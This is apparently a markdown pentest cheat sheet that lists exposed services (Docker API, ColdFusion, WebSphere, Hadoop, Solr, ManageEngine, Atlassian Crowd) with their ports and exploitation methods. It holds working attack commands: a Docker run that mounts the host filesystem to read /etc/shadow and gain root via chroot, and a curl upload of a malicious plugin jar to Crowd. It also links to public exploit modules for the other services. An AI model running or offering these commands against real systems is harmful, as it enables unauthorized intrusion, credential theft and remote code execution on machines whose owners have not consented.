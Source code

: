 # Docker API
**Ports:** 2375 \
**Exploit:**
* ```docker -H [host]:2375 run --rm -it --privileged --net=host -v /:/mnt alpine```
  * File Access: ```cat /mnt/etc/shadow```
  * Remote Code Execution: ```chroot /mnt```

## Adobe ColdFusion BlazeDS
**Ports:** 8080 \
**Exploit:**
* [Adobe ColdFusion BlazeDS Java Object Deserialization RCE Synopsis](https://www.tenable.com/plugins/nessus/99731)
* [Adobe ColdFusion BlazeDS Java Object Deserialization Remote Code Execution ExploitDB](https://www.exploit-db.com/exploits/43993)

## IBM Websphere
**Ports:** 8880 \
**Exploit:**
* [exploit/windows/misc/ibm_websphere_java_deserialize](https://www.rapid7.com/db/modules/exploit/windows/misc/ibm_websphere_java_deserialize/)

## Apache Hadoop
**Ports:** 8088 \
**Exploit:**
* [use exploit/linux/http/hadoop_unauth_exec](https://www.rapid7.com/db/modules/exploit/linux/http/hadoop_unauth_exec/)
* [Unauthorized-Yarn](https://github.com/vulhub/vulhub/blob/master/hadoop/unauthorized-yarn/exploit.py)

## Apache Solr
**Ports:** 8983 \
**Exploit:**
* [Apache Solr RCE via Velocity](https://github.com/jas502n/solr_rce)
* [Apache-Solr-RCE](https://github.com/Imanfeng/Apache-Solr-RCE)

## Zoho Manageengine Desktop
**Ports:** 8383 \
**Exploit:** 
* [src-2020-0011.py](https://srcincite.io/pocs/src-2020-0011.py.txt)

## Atlassian Crowd
**Ports:** 4990 \
**Exploit:**
* ```curl -k -H "Content-Type: multipart/mixed" \ --form "file_cdl=@rce.jar" http://[HOST]:4990/crowd/admin/uploadplugin.action```
* [Atlassian Crowd pdkinstall Metasploit Module](https://packetstormsecurity.com/files/163810/Atlassian-Crowd-pdkinstall-Remote-Code-Execution.html)
